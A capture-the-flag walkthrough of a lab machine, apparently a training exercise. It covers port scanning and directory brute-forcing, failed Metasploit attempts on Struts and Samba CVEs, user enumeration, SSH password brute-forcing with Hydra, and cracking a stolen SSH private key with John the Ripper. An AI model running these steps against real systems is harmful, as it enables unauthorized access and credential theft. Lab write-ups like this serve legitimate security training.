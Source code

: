 # Box: Web App Test

- My IP: `10.8.82.167`
- Box IP: `10.10.96.196`


#### 1. Find the services exposed by the machine:
Hint - use an nmap scan to look for the open ports.

**Command**:
`nmap -Pn -A -v 10.10.96.196`

##### Reason:
- `Pn`: Treat all hosts as online -- skip host discovery
- `A`: Enable OS detection, version detection, script scanning, and traceroute
- `v`: Increase verbosity level (use -vv or more for greater effect)

##### Analysis of nmap output:
[---nmap output---](nmap_output.txt)

We can see that port 22 (SSH), port 80 (HTTP), ports 139/445 (SMB), port 8009 (ajp3) and port 8080 (HTTP) are open.

#### What is the name of the hidden directory on the web server(enter name without /)?
Hint - use dirsearch/dirbuster to find the hidden directories.

We are going to use gobuster instead to find out this information.

`gobuster dir -u 10.10.41.37 -w /usr/share/dirb/wordlists/common.txt`

- `-u, --url`: The target URL
- `dir`: Uses directory/file brute forcing mode
- `-w, --wordlist`: Path to the wordlist

Analysis of gobuster output:
[---gobuster output---](gobuster_output.txt)

We can see a Status 301 (Moved Permanently) to a hidden directory called /development.

Contents:

`Index of /development
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	dev.txt	2018-04-23 14:52 	483 	 
[TXT]	j.txt	2018-04-23 13:10 	235 	 
Apache/2.4.18 (Ubuntu) Server at 10.10.96.196 Port 80`

2 files, dev.txt and j.txt.

`dev.txt` talks about something related to Apache struts, version 2.5.12.

`j.txt` mentions /etc/shadow and a weak password hash.

Attempt 1 - Exploit Struts:

Now we look up Struts v2.5.12 to see if there are any CVEs.

Found CVE-2017-9805, for which there is a metasploit exploit.

```
$ sudo msfdb init && msfconsole
$ search cve-2017-9805
$ use struts2_rest_xstream
$ set RHOSTS 10.10.96.196
$ run
```
Output:

[\*] Started reverse TCP handler on 10.0.2.15:4444
[\*] Exploit completed, but no session was created.

Outcome - Didn't work 0 No reverse shell created.

Attempt 2 - SMB Exploit :

Looking back at nmap output, we can see SMB (Samba 4.3.11-Ubuntu).

is_known_pipename() Arbitrary Module Load (Metasploit) found - CVE-2017-7494

Running exploit:
in metasploit--

```
$ search cve-2017-7494
$ use is_known_pip (don't have tot type in entire name)
```
Output:
```
[-] 10.10.96.196:445 - Exploit failed: An exploitation error occurred.
[*] Exploit completed, but no session was created.
```
Outcome - Didn't work.

Attempt 3 - Enumerate using enum4linux:

enum4linux allows us to enumerate information from Windows + Samba systems. So lets try that:

`enum4linux -a 10.10.96.196`

Output in file.

Analysis:
2 users -- kay, jan

#### What is the username?
jan

#### What is the password?
Brute force SSH using Hydra:

`hydra -t 4 -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.96.196`

- `-t 4`: TASKS  run TASKS number of connects in parallel per target (default: 16)
- `-l`: LOGIN name
- `-P`: load several passwords from FILE

From output, we can see the password is `armando`.

#### What service do you use to access the server(answer in abbreviation in all caps)?

Answer: ssh

`ssh jan@10.10.96.196`

#### Enumerate the machine to find any vectors for privilege escalation

Navigating to kay's home folder, we see a file called pass.bak, owned by kay.

`-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak`

We can also navigate to kay's .ssh folder and view kay's SSH key!

`python /usr/share/john/ssh2john.py kay_id_rsa > kay_id_rsa.hash`

The .hash file is now one that JohnTheRipper can work on.

`/usr/sbin/john --wordlist=/root/Desktop/dict/rockyou.txt id_rsa.hash`

Found a password: `beeswax`

Now we can use kay's id_rsa file to gain access to kay's shell:

`chmod 600 kay_id_rsa`
`ssh -i kay_id_rsa kay@10.10.96.196`

Navigate to Kay's home page:

`cat pass.bak`

Output: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

Completed!
